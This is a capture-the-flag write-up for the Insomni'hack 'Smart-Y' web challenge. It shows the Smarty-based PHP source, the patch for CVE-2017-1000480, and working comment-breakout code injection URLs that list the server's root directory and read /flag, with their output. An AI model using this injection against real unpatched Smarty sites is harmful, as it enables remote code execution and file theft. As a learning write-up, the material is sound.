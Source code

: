 
# Smart-Y
This challenge was the second most flagged web challenge.

## Description
```
Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.
http://smart-y.teaser.insomnihack.ch
```

## Recon

The description talks about the previous challenge from Insomni'hack 2017. So we started by looking for the writeup of this challenge (`https://terryvogelsang.tech/insomnihack-2017-nerdwar/`). So from here, we suspect the website use the framework Smarty (confirmed by the challenge's name) and the sqli and the template injection may have been patched.

The tool `dirb` tells us that the directory `smarty` exists with the `changelog.txt` file:
```
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables
```
The fonctionnality vulnerable to sqli has been deactivated in the fetch function. However the display function is stills available:
```php
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

This version is vulnerable to the [CVE-2017-1000480](https://www.cvedetails.com/cve/CVE-2017-1000480/). uUfortunately,  there is no public exploit available. After digging, we identified the [commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61) relative to the patch.
The patch is the following:
```php
-        $output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") .
-                   "\n  from \"" . $_template->source->filepath . "\" */\n\n";
+        $output .= "/* Smarty version {Smarty::SMARTY_VERSION}, created on " . strftime("%Y-%m-%d %H:%M:%S") .
+                   "\n  from \"" . str_replace('*/','* /',$_template->source->filepath) . "\" */\n\n";
```

 The patch prevent us to close the comment with `*/`.
 So in the actual version we should be able to close the comment and injection our own code.
 Let's try
 
 ## Exploit
 
 1. Let's list the root directory: `http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(scandir(%27/%27));/*`
 ```
 array(28) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(3) "bin"
  [3]=>
  string(4) "boot"
  [4]=>
  string(3) "dev"
  [5]=>
  string(3) "etc"
  [6]=>
  string(4) "flag"
  [7]=>
  string(4) "home"
  [8]=>
  string(10) "initrd.img"
  [9]=>
  string(14) "initrd.img.old"
  [10]=>
  string(3) "lib"
  [11]=>
  string(5) "lib64"
  [12]=>
  string(10) "lost+found"
  [13]=>
  string(5) "media"
  [14]=>
  string(3) "mnt"
  [15]=>
  string(3) "opt"
  [16]=>
  string(4) "proc"
  [17]=>
  string(4) "root"
  [18]=>
  string(3) "run"
  [19]=>
  string(4) "sbin"
  [20]=>
  string(4) "snap"
  [21]=>
  string(3) "srv"
  [22]=>
  string(3) "sys"
  [23]=>
  string(3) "tmp"
  [24]=>
  string(3) "usr"
  [25]=>
  string(3) "var"
  [26]=>
  string(7) "vmlinuz"
  [27]=>
  string(11) "vmlinuz.old"
}
```
2. Print the flag: `http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(file_get_contents(%22/flag%22));/*`

```string(26) "INS{why_being_so_smart-y}```

It was a really nice challenge which just require to read carefully the commit.
